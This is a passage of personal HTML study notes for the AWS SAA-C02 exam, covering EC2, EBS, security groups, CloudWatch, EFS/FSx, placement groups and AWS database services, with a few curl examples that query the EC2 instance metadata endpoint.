<li>Origin - This is the origin of all the files that the CDN will distribute. This can be an S3 Bucket, an EC2 Instance, an ELB or Route53.</li>
<li>Distribution - This is the name given to the CDN which consists of a collection of Edge Locations.</li>
<li>Web Distribution - Typically used for Websites.</li>
<li>RTMP - Used for Media Streaming.</li>
<li>Edge Location are not just READ only - you can write to them too. (ie put an object on to them.)</li>
<li>Objects are cached for the life of the TTL.</li>
<li>You can clear cached  objects, but you will be charged.</li>
</ul>
<p>Snowball</p>
<ul>
<li>Understand what Snowball is</li>
<li>import to S3</li>
<li>export from S3</li>
</ul>
<p>File gateway</p>
<ul>
<li>File Gateway - For flat files; stored directly on S3.</li>
<li>Volume Gateway<ul>
<li>stored Volumes - Entire Dataset is stored on site and is asynchronously backed up to S3.</li>
<li>Cached Volumes - Entire Dataset is stored on S3 and the most frequently accessed data is cached on site.</li>
</ul>
</li>
</ul>
<p>Gateway Virtual Tape library</p>
<ul>
<li><p>Used for backup and uses popular backup applications like netbackup, backup exec, veeam etc…</p>
<p>Athena Exam tips:</p>
<ul>
<li>Athena is an interactive query service</li>
<li>it allows you to query data located in S3 using standard SQL</li>
<li>Serverless</li>
<li>Commonly used to analyse log data stored in S3</li>
</ul>
</li>
</ul>
<p>Macie Exem tips:</p>
<ul>
<li>Macie uses AI to analyse data in S3 and helps indentify PII (personaly identifiable information)</li>
<li>Can also be used to analyse CloudTrail logs for suspicious API activity.</li>
<li>Includes Dashboards, Reports and Alerting</li>
<li>Great for PCI-DSS compliance and preventing ID theft.</li>
</ul>
<p>Read S3 FAQs before taking the exam. It comes up A LOT !</p>
<h1 id="Elastic-Compute-Cloud-EC2"><a href="#Elastic-Compute-Cloud-EC2" class="headerlink" title="Elastic Compute Cloud (EC2)"></a>Elastic Compute Cloud (EC2)</h1><p><strong>EC2 101 Elastic Compute Cloud</strong></p>
<ul>
<li>Termination protection is <em>turned off</em> by default, you must turn it on</li>
<li>On an EBS-backed instance, <em>the default action is for the root EBS volume to be deleted</em> when the instance is terminated.</li>
<li>EBS Root volumes of your DEFAULT AMI’s <em>CAN</em> be encryted. You can also use a third party tool (such as bit locker etc)<br>to encrypt the root volmume, or this can be done when creating AMI’s (lab to follow) in the AWS console or using API.</li>
<li>Additional volumes can be encrypted.</li>
</ul>
<p><strong>Security Groups - Lab</strong></p>
<ul>
<li>All inbounds traffic is blocked by default.</li>
<li>All outbounds traffic is allowed (statefull)</li>
<li>Changes to SG take effect immmediately.</li>
<li>You can have any number of EC2 instances within a security group.</li>
<li>You can have multiple SG attached to EC2 Instances.</li>
<li>SG are statefull</li>
<li>You can not block specific  IP addresses using SG , instead use NACL</li>
<li>You can specify allow rules, but not deny rules.</li>
</ul>
<p><strong>EBS 101</strong></p>
<ul>
<li>General Purpose SSD       =&gt; Most Work Loads      : gp2 -&gt; 1G-16T 16000 IOPS</li>
<li>Provisioned IOPS SSD      =&gt; Databases            : io1 -&gt; 4G-16T 64000 IOPS</li>
<li>Throughput Optimized HDD  =&gt; Big Data &amp; Warehouse : st1 -&gt; 500G-16T 500 IOPS</li>
<li>Cold HDD                  =&gt; File Servers         : sc1 -&gt; 500G-16T 250 IOPS</li>
<li>EBS Magnetic              =&gt; Workloads IAcess     : Standard -&gt; 1G-1T 40-200 IOPS</li>
</ul>
<p><strong>EBS Volumes and Snapshots</strong></p>
<ul>
<li>Volumes exist on EBS. Think of EBS as a virtual hard disk.</li>
<li>Snapshots exists on S3. Think of Snapshots as a photograp of the disk.</li>
<li>Snapshots are point in time copies of Volumes.</li>
<li>Snapshots are incremental.</li>
<li>First Snapshots may take some time to create</li>
<li>To create a Snapshots for EBS that serve as root devices, you should stop the instance before taking the snapshot.</li>
<li>However you can take a snap while the instance is running.</li>
<li>You can create AMI’s from snapshot</li>
<li>You can change EBS volume sizes on the fly, including changing the size and storage type.</li>
<li><p>Volumes will ALWAYS be in the same AZ as the EC2 instance.</p>
</li>
<li><p>To move an EC2 volume from one AZ to another, take as snapshot of it, crate an AMI from the snapshot and then use the AMI to launch the EC2 instance in a new AZ.</p>
</li>
<li>To move an EC2 volume from one REGION to another, take as snapshot of it, crate an AMI from the snapshot and then copy the AMI from one region to the other. Then use the copied AMI to launch the new EC2 instance in the new region.</li>
</ul>
<p><strong>AMI Types (EBS vs. Instance Store)</strong></p>
<ul>
<li>All AMIs are categorized as either backed by EBS or backed by instance store.<ul>
<li>The former means the root device for an instance launched from the AMI is an EBS volume created from an EBS snapshot.</li>
<li>The latter means the root device for an instance launched from the AMI is an instance store volume created from a template stored in Amazon S3.</li>
</ul>
</li>
<li>Instance Store Volumes are sometimes called Ephemeral Storage.</li>
<li>Instance Store Volumes cannot be stopped. If the underlying host fails, you will lose your data.</li>
<li>EBS backed instances can be stopped. You will not lose the data on this instance if it is stopped.</li>
<li>You can reboot both, you will not lose your data.</li>
<li>By Default, both ROOT volumes will be deleted on termination. However, with EBS volumes, you can tell AWS to keep the root device volume.</li>
</ul>
<p><strong>ENI vs. ENA vs. EFA [SAA-C02]</strong></p>
<p>-</p>
<p><strong>Encrypted Root Device Volumes and Snapshots - Lab</strong></p>
<ul>
<li>Snapshots of encrypted volumes are encrypted automatically</li>
<li>Volumes restored from encryted Snapshots are encrypted automatically</li>
<li>You can share snapshots, but only if they are unencrypted</li>
<li>These snapshots can be shared with other AWS accounts or made public</li>
<li><p>You can now encryted root device volumes upon creation of the EC2</p>
</li>
<li><p>Create a snapshot of the unencrypted root device volume.</p>
</li>
<li>Create a copy of the snapshot and select the encrypt option</li>
<li>Create an AMI from the encrypted snapshot</li>
<li>Use that AMI to launch new encrypted instances</li>
</ul>
<p><strong>Spot Instances and Spot Fleets [SAA-C02]</strong></p>
<ul>
<li>Spot instances can save up to 90% of the cost of On-Demand instances</li>
<li>Useful for any type of computing where you don’t need persistent storage</li>
<li>You can block Spot Instances from terminating by using Spot Block</li>
<li>A spot fleet is a collection of spot instances and, optionally, On-demand Instances</li>
</ul>
<p><strong>EC2 Hibernate [SAA-C02]</strong></p>
<ul>
<li>EC2 Hibernate preserves the in-memory RAM on persistent storage (EBS)</li>
<li>Much faster to boot up because you <em>do not need to reload the operating system</em></li>
<li>Instance RAM must be less than <em>150GB</em></li>
<li>Instance families include C3,C4,C5,M3,M4,M5,R3,R4,R5</li>
<li>Available for Windows, Amazon Linux 2 MAI, and Ubuntu</li>
<li>Instances can’t be hibernated for more than <em>60 Days</em></li>
<li>Available for <em>On-Demand instances</em> and <em>Reserved instances</em></li>
</ul>
<p><strong>CloudWatch 101</strong></p>
<ul>
<li>CloudWatch is used for monitoring Performance.</li>
<li>CloudWatch can monitor most os AWS as well as your applications that run on AWS.</li>
<li>CloudWatch with EC2 cill monitor events every 5 minutes by default.</li>
<li>You can have 1 minute intervals by turning on detailed monitoring.</li>
<li>You can create CloudWatch alarms which trigger notifications.</li>
<li>CloudWatch is all about performance. CloudTrail is all about auditing.</li>
</ul>
<p><strong>CloudWatch</strong></p>
<ul>
<li>Standard monitoring = 5 minutes</li>
<li>Detailed monitoring = 1 minute</li>
<li>Dashboards - Create dashboards to see what is happening with your AWS environment.</li>
<li>Alarms - Allows you to set Alarms that notify you when particular thresholds are hit.</li>
<li>Events - Cloudwatch Events helps you to respond to state changes in your AWS resources.</li>
<li>Logs - CloudWatch Logs helps you to aggregate, monitor, and store logs.</li>
</ul>
<p><strong>AWS (CLI)</strong></p>
<ul>
<li>You can interact with AWS from anywhere in the world just by using the CLI</li>
<li>You will need to set up access in IAM</li>
</ul>
<p><strong>Identity and Access Management Roles</strong><br> <em>Using IAM roles with EC2 makes it easier to securely access AWS service APIs from your EC2 instances. You can create an IAM role, assign it a set of permissions, and launch EC2 instances with the IAM role, and then AWS access keys with the specified permissions are automatically made available on those EC2 instances</em></p>
<ul>
<li>Roles are more secure than storing your access key and secret access key on individual EC2 instances.</li>
<li>Roles are easier to manage.</li>
<li>Roles can be assigned to an EC2 instance after it is created using both the console &amp; command line.</li>
<li>Roles are universal - You can use them in any region.</li>
</ul>
<p><strong>Using Bootstrap Scripts</strong></p>
<ul>
<li>Way of running things at the command line when your EC2 first boots.</li>
</ul>
<p><strong>Instance Metadata</strong></p>
<ul>
<li>Used to get information about an instance.<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">curl http://169.254.169.254/lastest/user-data you can see the bootstrap script.</span><br><span class="line">curl http://169.254.169.254/latest/meta-data/</span><br><span class="line">curl http://169.254.169.254/latest/meta-data/<span class="built_in">local</span>-ipv4</span><br><span class="line">curl http://169.254.169.254/latest/meta-data/public-ipv4</span><br></pre></td></tr></table></figure>
</li>
</ul>
<p><strong>EFS [SAA-C02]</strong></p>
<ul>
<li>Supports the NFS v4 protocol</li>
<li>You only pay for the storage you use (no prep-provisioning required)</li>
<li>Can scale up to the petabytes</li>
<li>Can support thousands of concurrent NFS connections</li>
<li>Data is stored across multiple AZ’s within a region</li>
<li>Read After Write Consistency</li>
</ul>
<p><strong>Amazon FSx for Windows and Amazon FSx for Lustre [SAA-C02]</strong></p>
<ul>
<li><strong>EFS</strong> : When you need distributed, higly resilient storage for Linux instances and Linux-based applicatio<br>ns.</li>
<li><strong>Amazon FSx for Windows</strong>: When you nedd centralised storage for Windows-based applications such as Sharepoint, Microsoft SQL Server, Workspaces, IIS Web Server or any other native Microsoft Application.</li>
<li><strong>Amazon FSx for lustre</strong>: When you need high-speed, high capacity distributed storage. This will be for applications that do High Performance Compute (HPC), financial modelling etc. Remember that FSx for Lustre can store data directly to S3.</li>
</ul>
<p><strong>EC2 Placement Groups</strong></p>
<ul>
<li><strong>Clustered Placement Group</strong>: Low Network Latency / High Network Throughput</li>
<li><strong>Spread Placement Group</strong>: Individual Critical EC2 instances</li>
<li><strong>Partitioned</strong>: Multiple EC2 instances HDFS, HBase, and Cassandra</li>
<li>A Clustered placement group can’t span multiple Availability Zone</li>
<li>A spread placement and partitioned group can.</li>
<li>The name you specify for a placement group must be unique within your AWS account.</li>
<li>Only certain types of instances can be launched in a placement group (Compute Optimized, GPU, Memory Optimized, Storage Optimized)</li>
<li>AWS recommended homogenous instances within Clustered placement groups.</li>
<li>You can’t merge placement groups.</li>
<li>You can move an existing instance to a placement group. Before you move the instance, the instance must be in the stopped state. You can move or remove an instance using the AWS CLI or an AWS SDK, you can’t do it via the console yet.</li>
</ul>
<p><strong>HPC on AWS [SAA-C02]</strong></p>
<ul>
<li><strong>Data Transfer</strong>:</li>
<li>Snowball, Snowmobile (terrabytes/petabytes worth of data)</li>
<li>AWS DataSYnc to store on S3, EFS, FSx for Windows etc</li>
<li>Direct Connect</li>
<li><strong>Compute &amp; Networking</strong>:</li>
<li>EC2 instances that are GPU or CPU Optimized</li>
<li>EC2 Fleets (Spot Instance or Spot FLeets)</li>
<li>Placement groups (cluster placement groups)</li>
<li>Enhanced networking Single Root I/O virtualization (SR-IOV)</li>
<li>Elastic Network Adapters or intel 82599 Virtual Function (VF) interfaces</li>
<li>Elastic Fabric Adapters</li>
<li><strong>Storage</strong>:<ul>
<li>Instance-attached storage:<ul>
<li><strong>EBS</strong>: scale up to 64000 IOPS with Provisionned IOPS (PIOPS)</li>
<li><strong>Instance Store</strong>: Scale to millions of IOPS; low Latency</li>
</ul>
</li>
<li>Network Storage:<ul>
<li><strong>Amazon S3</strong>: Distributed object-based storage; not a file system.</li>
<li><strong>Amazon EFS</strong>: Scale IOPS based on total size, or use Provisionned IOPS</li>
<li><strong>Amazon FSx for Lustre</strong>: HPC-optimized distributed file system, millions of IOPS, which is also backed by S3</li>
</ul>
</li>
</ul>
</li>
<li><strong>Orchestration &amp; Automation</strong>: </li>
<li>AWS batch</li>
<li>AWS ParallelCluster <a href="https://aws.amazon.com/getting-started/hands-on/deploy-elastic-hpc-cluster/?nc1=h_ls" target="_blank" rel="noopener">Doc</a></li>
</ul>
<p><strong>AWS WAF [SAA-C02]</strong><br><em>In the exam you will be given different scenarios and you will be asked how to block malicious IP addresses</em></p>
<ul>
<li>Use AWS WAF</li>
<li>Use Network ACLs - (cf VPC Section)</li>
</ul>
<p><strong>EC2 Summary</strong><br><em>Amazon Elastic Compute Cloud is a web service that provides resizable compute capacity in the cloud. Amazon EC2 reduces the time required to obtain and boot new server instances to minutes, allowing you to quickly scale capacity, both up and down, as your computing requirements change</em></p>
<ul>
<li><strong>On Demand</strong>: Allows you to pay a fixed rate by the hour (or by the second) with no commitment.</li>
<li><strong>Reserved</strong>: Provides you with a capacity reservation, and offer a significant discount on the hourly charge for an instance. Contract Terms are 1 Year or 3 Year Terms.</li>
<li><strong>Spot</strong>: Enables you to bid whatever price you want for instance capacity, providing for even greater savings if your applications have flexible start and end times.</li>
<li><strong>Dedicated Hosts</strong>: Physical EC2 server dedicated for your use. Dedicated Hosts can help you reduce costs by allowing you to use your existing server-bound software licenses.</li>
</ul>
<p><em>If the Spot Instance is terminated by Amazon EC2, you will not be charged for a partial hour of usage. However, if you terminate the instance yourself, you will be charged for any hour in which the instance ran.</em></p>
<p><strong>EC2 Instances Types</strong>:<br>F - For FPGA<br>I - For IOPS<br>G - Graphics<br>H - High Disk Throughput<br>T - Cheap general purpose (Think T2 micro)<br>D - For Density<br>R - For RAM<br>M - Main choice for general purpose apps<br>C - For compute<br>P - Graphics (think Pics)<br>X - Extreme Memory<br>Z - Extreme Memory AND CPU<br>A - Arm-based workloads<br>U - Bare Metal</p>
<p><strong>EBS</strong>:</p>
<ul>
<li>EBS = hard disk drive on the cloud. Termination Protection is <strong>turned off</strong> by default, you must turn it on!</li>
<li>On a EBS-Backed instance, the <strong>default action is for the root EBS volume to be deleted</strong> when instance is terminated.</li>
<li>EBS Root Volumes of your DEFAULT AMI’s <strong>CAN</strong> be encrypted. You can also use a third party tool (such as bit locker etc) to encrypt the root volume, or this can be done when creating AMI’s (remember the lab) in the AWS console or using the API.<ul>
<li>Additional volumes can be encrypted.</li>
</ul>
</li>
</ul>
<p><strong>Security Group</strong></p>
<ul>
<li>All Inbound traffic is blocked by default.</li>
<li>All Outbound  traffic is allowed.</li>
<li>Changes to SG take effect immediately.</li>
<li>You can have any number of EC2 instances within a security group.</li>
<li>You can have multiple security groups attached to EC2 Instances.</li>
<li><strong>SG</strong> are <strong>STATEFULL</strong> (<strong>NACL</strong> are <strong>STATELESS</strong>)</li>
<li>If you create an inbound rule allowing traffic in, that traffic is automatically allowed back out again.</li>
<li>You cannot block specific IP addresses using SG, instead use NACL.</li>
</ul>
<p><strong>EBS Snapshots</strong>:</p>
<ul>
<li>Volumes exist on EBS. Think of EBS as a virtual hard disk.</li>
<li>Snapshots exist on S3. Think of snapshots as a photograph of the disk.</li>
<li>Snapshots are point in time copies of Volumes.</li>
<li><strong>Snapshots are incremental</strong> this means that only the blocks that have changed since your last snapshot are moved to S3.</li>
<li>If this is your first snapshot, it may take some time to create.</li>
<li>To create a snapshot for Amazon EBS volumes that serves as root devices, you should stop the instance before taking the snapshot.</li>
<li>However you can take a snap while the instance is running.</li>
<li>You can create AMI’s from both Volumes and snapshots</li>
<li>You can change EBS volume sizes on the fly, including changing the size and storage type.</li>
<li>Volumes will ALWAYS be in the same AZ as the EC2 instance.</li>
</ul>
<p><strong>Migrating EBS</strong></p>
<ul>
<li>To move an EC2 volume from one AZ to another, take a snapshot of it, create an AMI from the snapshot and the use the AMI to launch the EC2 instance in a new AZ.</li>
<li>To move an EC2 volume from one region to another, take a snapshot of it, create an AMI from the snapshot and then copy the AMI from one region to the other. Then use the copied AMI to launch the new EC2 instance in the new region.</li>
</ul>
<p><strong>EBS Encryption</strong></p>
<ul>
<li>Snapshots of encrypted volumes are encrypted automatically.</li>
<li>Volumes restored from encrypted Snapshots are encrypted automatically.</li>
<li>You can share snapshots, but only if they are unencrypted.</li>
<li>These snapshots can be shared with other AWS accounts or made public.</li>
</ul>
<p><strong>Exam tips</strong>:<br><strong>Root Device Volumes Can Now Be Encrypted. So if you have an unencrypted root device volume that needs to be encrypted do the following</strong></p>
<ul>
<li>Create a Snapshot of the unencrypted root device volume.</li>
<li>Create a copy of the Snapshot and select the encrypt option.</li>
<li>Create an AMI from the encrypted Snapshot.</li>
<li>Use that AMI to launch new encrypted instances.</li>
</ul>
<p><strong>EBS vs Instance Store</strong></p>
<ul>
<li>Instance Store Volumes are sometimes called Ephemeral Storage.</li>
<li>Instance store volumes cannot be stopped. If the underlying host fails, you will lose your data.</li>
<li>EBS backed instances can be stopped. You will not lose the data on this instance if it is stopped.</li>
<li>You can reboot both, you will not lose your data.</li>
<li>By default, both ROOT Volumes will be deleted on termination. However, with EBS volumes, you can tell AWS to keep the root device volume.</li>
</ul>
<p><strong>Encrypting Root Device Volumes</strong></p>
<ul>
<li>Create a snapshot oh the unencrypted root device volume.</li>
<li>Create a copy of the snapshot and select the encrypt option.</li>
<li>Create an AMI from the encrypted Snapshot</li>
<li>Use that AMI to launch new encrypted instances.</li>
</ul>
<p><strong>Enhanced Networking</strong><br><em>In the exam you will be given difreent scenarios and you will be asked to choose whether you should use ENI, EN or EFA</em></p>
<ul>
<li><strong>ENI</strong>: For basic Networking. Perhaps you need a separate management network to your production network or a separate logging network and you need to do this at law cost. In this scenario use multiple ENIs for each network.</li>
<li><strong>Enhanced Network</strong>: For when you need speeds between 10Gbps and 100Gbps. Anywhere you need reliable, high throughput.</li>
<li><strong>Elastic Fabric Adapter</strong>: For when you need to accelerate High Performance Computing (HPC) and machine learning applications or if you need to do an OS by-pass. If you see a scenario question mentioning HPC or ML and asking what network you want, choose EFA !</li>
</ul>
<p><strong>CloudWatch</strong></p>
<ul>
<li>Cloudwatch is used for monitoring performance.</li>
<li>Cloudwatch can monitor most of AWS as well as your applications that run on AWS.</li>
<li>Cloudwatch with EC2 will monitor events every 5 minutes by default.</li>
<li>You can have 1 minute intervals by turning on detailed monitoring.</li>
<li>You can create CloudWatch alarms which trigger notifications.</li>
<li>CloudWatch is all about performance. CloudTrail is all about auditing.</li>
<li>Dashboards - Creates awesome dashboards to see what is happening with your AWS environment.</li>
<li>Alarms - Allows you to set Alarms that notify you when particular thresholds are hit.</li>
<li>Events - CloudWatch events helps you to respond to state changes in your AWS resources.</li>
<li>Logs - CloudWatch Logs helps you to aggregate, monitor, and store logs.</li>
<li>CloudWatch monitors performance.</li>
<li>CloudTrail monitors API calls in the AWS platform.</li>
</ul>
<p><strong>The CLI</strong></p>
<ul>
<li>You can interact with AWS from anywhere in the world just by using the command line (CLI)</li>
<li>You will need to set up access in IAM</li>
<li>Commands themselves are not in the exam, but some basic commands will be useful to know for real life.</li>
</ul>
<p><strong>Roles</strong></p>
<ul>
<li>Roles are more secure than storing your access key and secret access key on individual EC2 instances.</li>
<li>Roles are easier to manage.</li>
<li>Roles can be assigned to an EC2 instance after it is created using both the console &amp; command line.</li>
<li>Roles are universal - you can use them in any region.</li>
</ul>
<p><strong>Bootstrap SCripts</strong></p>
<ul>
<li>Bootstrap scripts run when an EC2 instance first boots.</li>
<li>Can be a powerful way of automating software installs and updates.</li>
</ul>
<p><strong>Instance Meta Data &amp; User Data</strong></p>
<ul>
<li>Used to get information about an instance (such as public IP)<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">curl http://169.254.169.254/latest/meta-data/</span><br><span class="line">curl http://169.254.169.254/latest/user-data/</span><br></pre></td></tr></table></figure>
</li>
</ul>
<p><strong>EFS</strong></p>
<ul>
<li>Supports the NFSv4 pprotocol.</li>
<li>You only pay for the storage you use (no pre-provisioning required.)</li>
<li>Can scale up to the petabytes.</li>
<li>Can support thousands of concurrent NFS connections.</li>
<li>Data is stored accross multiple AZ’s within a region.</li>
<li>Read After Write Consistency.</li>
</ul>
<p><em>In the exam you’ll be given different scenarios and asked to choose whether you should use an EFS, FSx for Windows or FSx for Lustre.</em></p>
<ul>
<li><strong>EFS</strong>: When you need distributed, highly resilient storage for Linux instances and Linux-based applications.</li>
<li><strong>Amazon FSx for Windows</strong>: When you need centralised storage for Windows-based applications such as Sharepoint, Microsoft SQL Server, Workspaces, IIS Web Server or any other native Microsoft Application.</li>
<li><strong>Amazon FSx for Lustre</strong>: When you need high-speed, high-capacity distributed storage. This will be for applications that do High Performance Compute (HPC), financial modelling etc. Remember that FSx for Lustre can store data directly on S3.</li>
</ul>
<p><strong>EC2 Placement Groups</strong><br><em>Three types of Placement Group</em></p>
<ul>
<li><strong>Clustered Placement Group</strong><ul>
<li>Low Network Latency / High Network Throughputi.</li>
</ul>
</li>
<li><strong>Spread Placement Group</strong><ul>
<li>Individual Critical EC2 instances.</li>
</ul>
</li>
<li><strong>Partitioned</strong><ul>
<li>Multiple EC2 instances HDFS, HBASE, and Cassandra.</li>
</ul>
</li>
<li>A Clustered placement group can’t span multiple AZs.</li>
<li>A Spread placement and Partitioned can.</li>
<li>The name you specify for a placement group must be unique within you AWS account.</li>
<li>Only certain types of instances can be launched in a placement group (Compute Optimized, GPU, Memory Optimized, Storage Optimized)</li>
<li>AWS recommend homogenous instances within Clustered Placement groups.</li>
<li>You can’t merge placement groups.</li>
<li>You can’t move an existing instance into a placement group. You can create an AMI from your existing instance, and the launch a new instance from the AMI into a placement group.</li>
</ul>
<h1 id="Databases-101"><a href="#Databases-101" class="headerlink" title="Databases 101"></a>Databases 101</h1><p><strong>RDS</strong> (OLPT) consist of online transaction processing:</p>
<ul>
<li>SQL</li>
<li>MySQL</li>
<li>PostgreSQL</li>
<li>Oracle</li>
<li>Aurora</li>
<li><p>MariaDB</p>
</li>
<li><p>Dynamodb (NoSQL)</p>
</li>
<li><p>RedShift (OLAP) Online Analytic Processing: using for Business Intelligence or Date Warehousing.</p>
</li>
<li><p>Elasticache : to speed up performance of existing databases (frequent identical queries)</p>
<ul>
<li>Memcached</li>
<li>Redis</li>
</ul>
</li>
<li><p>RDS runs on VM</p>
</li>
<li>You cannot log in to theses operating systems however.</li>
<li>Patching of the RDS Operating System and DB is Amazon’s responsibility</li>
<li>RDS is NOT Serverless.</li>
<li>Aurora Serverless is Serverless.</li>
</ul>
<p><strong>RDS: Backups, Multi-AZ, and Read Replicas</strong></p>
<ul>
<li>TODO….</li>
</ul>
<p><strong>RDS: Backups, Multi-AZ, and Read Replicas - Lab</strong></p>
<ul>
<li>There are two different types of Backups for RDS:<ul>
<li>Automated Backups</li>
<li>Databases Snapshots</li>
</ul>
</li>
<li>Read Replicas:<ul>
<li>Can be Multi-AZ</li>
<li>Used to increase performance.</li>
<li>Must have backups turned on.</li>
<li>Can be in different regions.</li>
<li>Can be MySQL, PostrgeSQL, MariaDB, Oracle, Aurora.</li>
<li>Can be promoted to master, this will break the Read Replica.</li>
</ul>
</li>
<li>MutliAZ:<ul>
<li>Used for DR(Disaster Recovery)</li>
<li>You can force a failover from one AZ to another by rebooting the RDS instance.</li>
</ul>
</li>
</ul>
<p><strong>DynamoDB</strong></p>
<ul>
<li>Stored on SSD storage.</li>
<li>Spread across 3 geographically distinct data centers.</li>
<li>Eventual Consistent Reads (Default).</li>
<li>Strongly Consistent Reads.</li>
<li><strong>Eventual Consistent Reads</strong>: Consistency across all copies of data is usually reached within a second. Repeating a read after a short time should return updated data. (Best Read Performance)</li>
<li><strong>Strongly Consistent Reads</strong>: A strongly consistent read returns a result that reflects all writes that received a successful response prior to the read.</li>
</ul>
<p><strong>Advanced DynamoDB [SAA-C02]</strong></p>
<ul>
<li><strong>DAX</strong> (DynamoDB Accelerator)</li>
<li>Fully managed, highly available, in-memory cache</li>
<li>10x performance improvement</li>
<li>Reduces request time from milliseconds to <strong>microseconds</strong> - even under load !</li>
<li>No need for developers to manage caching logic.</li>
<li>Compatible with DynamoDB API calls</li>
<li><strong>Transactions</strong>:<ul>
<li>Multiple “all-or-nothing” operations.</li>
<li>Financial transactions.</li>
<li>Fulfilling orders.</li>
<li>Two underlying reads or writes - prepare/commit</li>
<li>Up to 25 items or 4 MB of data.</li>
</ul>
</li>
<li><strong>On-Demand capacity</strong>:<ul>
<li><strong>Pay-per-request</strong> pricing.</li>
<li>Balance cost and performance.</li>
<li>No minimum capacity.</li>
<li>No charge for read/write - only storage and backups.</li>
<li><strong>Pay more per request</strong> than with provisioned capacity.</li>
<li>Use for new product launches.</li>
</ul>
</li>
<li><strong>Backup and Restore</strong>:<ul>
<li><strong>On-Demand backup and restore</strong>:<ul>
<li>Full backups at any time.</li>
<li>Zero impact on table performance or availability</li>
<li>Consistent within seconds and <strong>retained until deleted</strong></li>
<li>Operates within same region as the source table.</li>
</ul>
</li>
<li><strong>Point in Time Recovery (PITR)</strong>:<ul>
<li>Protects against accidental writes or deletes.</li>
<li>Restore to any point in the last <strong>35 days</strong>.</li>
<li>Incremental backups.</li>
<li>Not enabled by default.</li>
<li>Latest restorable: <strong>five minutes</strong> in the past.</li>
</ul>
</li>
</ul>
</li>
<li><strong>Streams</strong><ul>
<li>Time-ordered sequence of item-level changes in a table.</li>
<li>Stored for 24 hours.</li>
<li>Inserts, updates and deletes.</li>
<li>Combine with Lambda functions for functionality like stored procedures.</li>
</ul>
</li>
<li><p><strong>Global Tables</strong>:</p>
<ul>
<li><strong>Managed Multi-Master, Multi-Region Replication</strong>:<ul>
<li>Globally distributed applications.</li>
<li>Based on DynamoDB streams.</li>
<li>Multi-region redundancy for DR or HA.</li>
<li>No application rewrites.</li>
<li>Replication latency under <strong>one second</strong></li>
</ul>
</li>
</ul>
</li>
<li><p><strong>Database Migration Servicve (DMS)</strong>:</p>
</li>
<li><p><strong>Security</strong>:</p>
<ul>
<li>Encryption at REST using KMS.</li>
<li>Site-to-site VPN.</li>
<li>Direct Connect (DX).</li>
<li>IMA policies and roles.</li>
<li>Fine-grained access.</li>
<li>CloudWatch and CloudTrail.</li>
<li>VPC Endpoint.</li>
</ul>
</li>
</ul>
<p><strong>Redshift</strong>:<br><em>Redshift is a petabyte-scale data warehouse product available within AWS. It’s capable of being used for ad-hoc warehousing/analytics or long-running deployments.</em></p>
<ul>
<li>RedShift is used for Business Intelligence.</li>
<li>OLAP: Online Analytic Processing: using for Business Intelligence or Date Warehousing.</li>
<li>Single Node (160G)</li>
<li>Multi-Node<ul>
<li>Leader Node (manages client connections and receives queries)</li>
<li>Compute Node (store data and perform queries and computations). Up to 128 Compute Nodes.</li>
</ul>
</li>
<li>MPP: Massive Parallel Processing.</li>
<li>Backups:<ul>
<li>Enable by default with 1 day retention period.</li>
<li>Maximum retention period is 35 days.</li>
<li>Redshift always attempts to maintain at least three copies of your data (the original and replica on the compute nodes and a backup in Amazon S3).</li>
<li>RedShift can also asynchronously replicate your snapshots to S3 in another region for disaster recovery.</li>
</ul>
</li>
<li>Encrypted in transit using SSL</li>
<li>Encrypted at REST using AES-256 encryption.</li>
<li>By default Redshift takes care of key management.<ul>
<li>Manage your own keys through HSM.</li>
<li>AWS key Management Service.</li>
</ul>
</li>
<li>Currently only available in 1 AZ</li>
<li>Can restore snapshots to new AZs in the event of an outage.</li>
</ul>
<p><strong>Aurora [SAA-C02]</strong><br><em>Aurora is a custom-designed relational database engine that forms part of RDS. Rather than an evolution, Aurora significantly replaces much of the traditional MySQL and PostgreSQL architecture in favor of cluster and shared storage architecture, which is more scalable and resilient with much higher performance.</em></p>
<ul>
<li>2 copies of your data are contained in each AZ, with minimum of 3 AZ. 6 copies of your data.</li>
<li>You can share Aurora Snapshots with other AWS account.</li>
<li>3 types of replicas available:<ul>
<li>Aurora Replicas (15) (Automated failover is only available with Aurora Replicas.)</li>
<li>MySQL replicas (5)</li>
<li>PostgresQL replicas. (1)</li>
</ul>
</li>
<li>Aurora has automated backups turned on by default. You can also take snapshots with Aurora. You can share these snapshots with other AWS accounts.</li>
<li>Use Aurora Serverless if you want a simple, cost effective option for infrequent, intermittent, or unpredictable workloads.</li>
</ul>
<p><strong>Elasticache</strong></p>
<ul>
<li>Use Elasticache to increase database and web application performance.</li>
<li>Redis is Multi-AZ.</li>
<li>You can do back ups and restores of Redis.</li>
</ul>
<p><strong>Database Migration Service (DMS) [SAA-C02]</strong><br><em>In this Part, we’ll cover Database Migration Service (DMS), which can help with homogeneous migrations as well as migrations between different database engines, such as Oracle or SQL Server, to Amazon Aurora or DynamoDB.</em></p>
<ul>
<li>DMS allows you to <strong>migrate databases</strong> from one source to AWS.</li>
<li>The source can either be on-premises, or inside AWS itself or another cloud provider such as Azure.</li>
<li>You can do <strong>homogenous</strong> migrations (same DB engines) or <strong>heterogeneous</strong> migrations.</li>
<li>If you do heterogeneous migration, you will need the <strong>AWS Schema Conversion Tool (SCT)</strong></li>
</ul>
<p><strong>Caching Strategies on AWS [SAA-C02]</strong><br><em>In this Part, we’ll cover the various caching strategies commonly found in AWS, along with the benefits and tradeoffs of each.</em><br><em>Caching is a balancing act between up-to-date, accurate information and latency. We can use the following services to <strong>cache on AWS</strong></em>:</p>
<ul>
<li>CloudFront</li>
<li>API Gateway</li>
<li>ElastiCache - Memcached and Redis.</li>
<li>DynamoDB Accelerator (DAX)</li>
</ul>
<p><strong>EMR Overview [SAA-C02]</strong><br><em>Elastic MapReduce is an AWS-managed implementation of the Apache Hadoop ecosystem of products. This lesson walks through the high-level architecture of the product.</em></p>
<ul>
<li>EMR is used for <strong>Big Data processing</strong></li>
<li>Consists of a <strong>master node</strong>, a <strong>core node</strong>, and (optionally) a <strong>task node</strong>.</li>
<li>By default, log data is <strong>stored on the master node</strong>.</li>
<li>You can configure replication to S3 on <strong>five-minutes intervals for all log data from the master node</strong>; however, this can only be configured when creating the cluster for the first time.</li>
</ul>
<p><strong>Databases Summary</strong></p>
<ul>
<li><strong>RDS</strong> (OLTP)</li>
<li>DynamoDB (NoSQL)</li>
<li>RedShift OLAP</li>
